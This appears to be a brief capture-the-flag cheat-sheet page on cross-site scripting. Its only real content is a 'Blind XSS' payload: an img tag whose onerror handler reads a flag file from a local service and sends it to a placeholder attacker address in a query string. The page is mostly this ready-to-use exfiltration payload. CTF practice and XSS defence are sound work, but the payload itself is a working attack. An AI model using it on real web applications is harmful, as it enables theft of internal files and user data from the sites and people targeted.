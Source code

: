 ```yaml
---
title: Cross Site Scripting (XSS)
sidebar_position: 2
---
```


## Blind XSS

**Fetching flag where the development runs in the production machine.**

```javascript
<img src="x" 
     onerror="
        fetch('http://127.0.0.1:8080/flag.txt')
        .then(r => r.text())
        .then(x => {
            fetch('http://<ATTACKER_ADDRESS>/?flag=' + encodeURIComponent(x))
        })
    " 
/>
```